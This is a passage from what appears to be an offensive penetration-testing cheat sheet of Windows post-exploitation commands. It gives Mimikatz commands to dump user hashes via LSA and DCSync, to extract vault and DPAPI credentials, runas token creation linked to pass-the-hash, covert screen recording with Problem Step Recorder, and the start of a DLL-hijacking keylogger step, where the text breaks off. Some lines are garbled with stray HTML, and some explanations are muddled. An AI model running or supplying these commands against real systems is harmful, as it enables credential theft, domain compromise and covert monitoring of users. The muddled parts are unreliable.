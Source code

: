 <span id="anchor-299"></span>MimiKatz Dump Specific User Hash (LSA)

```
lsadump::lsa /inject /name:**&lt;user&gt;**
```

<span id="anchor-300"></span>MimiKatz Dump Specific User Hash (DC
Synchronization)

```
lsadump::dcsync /domain:**&lt;domain FQDN**&gt; /user:**&lt;username&gt;**
```

<span id="anchor-301"></span>MimiKatz Dump Service Password

```
privilege::debug
token::elevate
vault::cred /patch</p></td>
```

<span id="anchor-302"></span>MimiKatz Dump DPAPI Creds

```
privilege::debug
token::elevate
dpapi::cred /in:%systemroot%\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\<strong>&lt;credentialfile&gt;</strong></p></td>
```

<span id="anchor-303"></span>RUNAS to Create Token & Run Process
(Password Known)

```
runas /netonly /user:**&lt;domain&gt;**\\**&lt;user&gt;** **&lt;command&gt;**
```

**Note:** You will still be recognized as the user your ran the command
as on the local system. Remote systems will see the token you generated.
This is how Pass-the-Hash (PTH)works. This technique can be used to
build the hash needed for a PTH.

<span id="anchor-304"></span>Keylogging & Desktop Monitoring

<span id="anchor-305"></span>Start Recording Screens with Problem Step
Recorder (Must be run with user’s credentials)

```
psr.exe /start /gui 0 /output **&lt;ZIP file path&gt;**
```

<span id="anchor-306"></span>Stop Recording Screens with Problem Step
Recorder

```
psr.exe /IT /RU **&lt;domain&gt;**\\**&lt;user&gt;** /RP **&lt;password&gt;**
```

<span id="anchor-307"></span>Keylogging with DLL Hijacking

Compile a Keylogger as a DLL and place it in the following directory,
then kill and **explorer.exe**:
